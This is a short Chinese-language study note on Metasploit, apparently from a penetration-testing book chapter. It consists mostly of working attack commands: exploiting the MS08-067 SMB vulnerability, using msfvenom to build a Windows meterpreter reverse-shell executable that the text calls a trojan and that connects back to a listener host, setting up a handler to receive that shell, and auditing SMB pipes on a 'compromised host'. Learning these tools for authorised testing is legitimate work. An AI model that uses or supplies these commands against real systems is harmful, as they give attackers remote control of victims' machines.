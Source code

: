 # 第四章 Metasploit

`search ms08-067` `info exploit/windows/smb/ms08_067_netapi` `use windows/smb/ms08_067_netapi` `show options`

## Msfvenom

* `msfvenom -l payloads` 查看可用payloads
* `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > haha.exe`如此制作了一个木马
* `use multi/handler`

    `set LHOST 192.168.20.9`

    `set LPORT 12345`

    `exploit`

    这样就可以监听了

## SMBPIPE

SMBPIPE是使用SMB服务的通道，可能会有各种通道，我们选择的是Browser通道，看肉鸡开了那个通道可以通过 `user scanner/smb/pipe_auditor`来知道

